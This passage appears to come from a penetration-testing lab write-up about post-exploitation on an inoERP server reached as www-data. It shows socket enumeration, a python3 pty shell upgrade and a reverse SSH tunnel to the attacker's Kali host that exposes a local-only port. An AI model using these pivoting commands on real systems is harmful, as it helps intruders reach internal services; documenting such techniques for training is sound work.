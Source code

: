 During our enumeration we list sockets using the `ss` utility:

```
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ss -antp
ss -antp                                                                                                                                                   
State     Recv-Q Send-Q           Local Address:Port               Peer Address:Port                                                                            Process                                                                                                                                               
LISTEN 0      80                   127.0.0.1:3306                  0.0.0.0:*                                                                                    
LISTEN 0      4096             127.0.0.53%lo:53                    0.0.0.0:*                                                                                    
LISTEN 0      128                    0.0.0.0:22                    0.0.0.0:*                                                                                    
LISTEN 0      4096                 127.0.0.1:8443                  0.0.0.0:*                                                                                    
ESTAB  0      0               192.168.100.72:22                 5.9.47.204:56603                                                                                
ESTAB  0      0               192.168.100.72:46962          192.168.100.44:80    users:(("ss",pid=245522,fd=2),("ss",pid=245522,fd=1),("ss",pid=245522,fd=0),("bash",pid=244997,fd=255),("bash",pid=244997,fd=2),("bash",pid=244997,fd=1),("bash",pid=244997,fd=0))
ESTAB  0      0               192.168.100.72:22                 5.9.47.204:65479                                                                                
LISTEN 0      511                          *:80                          *:*                                                                                    
LISTEN 0      128                       [::]:22                       [::]:*                                                                                    
ESTAB  0      0      [::ffff:192.168.100.72]:80    [::ffff:192.168.100.44]:39938  

```

We see that port `8443` is open for listening but if we open `http://192.168.100.72:8443/` in the browser, there is no response.

To access port `8443` , we will utilize protocol tunneling.

We begin protocol tunneling with the following command (SSH server must be running on the attacker machine):

```
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44
<on$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44                
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/var/www/.ssh'.
Host key verification failed.
```

From the output we seem to have restrictions on our shell.

To avoid the restrictions of our shell we can spawn a bash shell through the `python3` interpreter:

```
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ion$ python3 -c "import pty;pty.spawn('/bin/bash')"                
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44
<on$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44                
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.100.44 (192.168.100.44)' can't be established.
ECDSA key fingerprint is SHA256:njTwMdys9ogT4RiXrYmhObsAJBULOX0TxI1QX0MkMtk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
kali@192.168.100.44's password: yourPassword
```